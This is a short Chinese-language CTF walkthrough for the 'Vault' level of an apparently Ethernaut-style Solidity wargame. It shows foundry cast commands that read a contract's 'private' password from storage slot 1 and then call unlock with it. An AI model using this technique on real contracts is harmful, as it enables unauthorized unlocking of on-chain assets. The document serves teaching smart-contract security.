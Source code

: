 ### 第7关：Vault 

这一关目的是要读取合约中的 bytes32 private password 变量。从代码布局
```solidity
contract Vault {
    bool public locked;
    bytes32 private password;
...
}
```
中我们可以推测出 password 存放在 slot1 中（当然你也可以获取多一些比如 slot0~slot9 来观察一下），



**使用 foundry cast 来读取存储槽1, 得到密码：**
```shell
cast storage 0x目标合约地址 1  --rpc-url=https://blastapi.io
 ```

然后调用 unlock(bytes32 _password) 函数：
 ```shell
cast send 0x目标合约地址 "unlock(bytes32 _password)" 0x12345...67890  --rpc-url=https://public.blastapi.io  --private-key=攻击者私钥
 ```

 点击 Submit Instance, 过关。
